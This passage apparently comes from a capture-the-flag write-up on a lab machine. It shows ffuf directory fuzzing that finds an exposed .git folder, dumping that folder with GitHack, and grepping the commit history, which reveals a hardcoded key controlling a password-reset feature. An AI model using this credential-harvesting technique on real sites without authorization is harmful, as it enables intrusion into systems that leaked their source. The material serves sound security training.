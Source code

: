 We got an `old` directory, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424125832.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250424125854.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250424125908.png)

We can try fuzzing further on the directory:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.153.96/old/FUZZ" -ic -c -t 200 -e .git,.php,.html,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.153.96/old/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .git .php .html .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 163ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 399ms]
templates               [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 160ms]
```

We got a `.git` folder, let's get it using `GitHack` and check the contents:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424130921.png)

There seems to be a password showing functionality on the other port web application, let's check the logs with:

```
git log -p > log.txt
```

We can now grep it to search if we got any password or key:

```bash
cat log.txt | grep "key"
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality
-    if(data['key']=='7454c262d0d5a3a0c0b678d6c0dbc7ef'):
-    if(data['key']=='abcd'):
+    if(data['key']=='7454c262d0d5a3a0c0b678d6c0dbc7ef'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality
+    if(data['key']=='abcd'):
```
